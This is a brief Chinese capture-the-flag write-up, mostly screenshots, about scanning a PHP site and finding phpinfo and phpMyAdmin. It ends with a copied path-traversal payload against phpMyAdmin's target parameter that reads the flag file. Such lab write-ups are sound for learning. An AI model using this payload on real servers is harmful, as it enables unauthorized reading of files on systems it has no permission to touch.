 ![[Pasted image 20221125210719.png]]

---
首页长这样

![[Pasted image 20221125210651.png]]

`dirsearch`扫到了`robots.txt`

![[Pasted image 20221125220315.png]]

![[Pasted image 20221125211153.png]]

访问`/phpinfo.php`

![[Pasted image 20221125211604.png]]

宁就是`webmaster`嘛www

既然他说和数据库有关，那就记一下叭（虽然不知道有什么用）

![[Pasted image 20221125211941.png]]

---
还有一个`phpmyadmin`扫到了，不知道是啥

![[Pasted image 20221125220518.png]]

emmm没有思路，看看版本号蛮可疑的

![[Pasted image 20221125220708.png]]

![[Pasted image 20221125221044.png]]

![[Pasted image 20221125221327.png]]

看不懂，但能抄.jpg（脚本小子实锤）

```php
/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../flag
```
![[Pasted image 20221125222248.png]]

#Web #PHP #目录扫描 #phpmyadmin #Vulnerabilities #信息检索